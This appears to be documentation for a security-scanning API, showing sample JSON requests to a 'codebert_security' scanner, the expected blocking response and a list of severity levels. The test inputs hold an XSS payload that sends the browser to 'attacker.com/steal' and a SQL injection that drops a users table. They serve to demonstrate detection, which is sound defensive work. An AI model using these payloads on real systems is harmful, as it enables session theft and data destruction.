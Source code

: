 ### **XSS Test**
```json
{
  "text": "<script>document.location='http://attacker.com/steal'</script>",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### **SQL Injection Test**
```json
{
  "text": "'; DROP TABLE users; --",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Expected Response:**
```json
{
  "decision": 2,
  "score": 0.95,
  "highestSeverity": "Critical",
  "findings": [
    {
      "scanner": "codebert_security",
      "code": "DETECTED",
      "message": "Critical security threat detected",
      "severity": "Critical",
      "confidence": 0.95
    }
  ]
}
```

## 🛡️ Protection Levels

- **Critical (4)**: Immediate blocking - system destruction, data theft
- **High (3)**: Blocking - serious security threats
- **Medium (2)**: Blocking - suspicious activity
- **Low (1)**: Review - minor concerns
- **Info (0)**: Allow - no threats detected

These examples would all result in **decision = 2 (Block)** with **Critical** severity, providing maximum protection for your application.
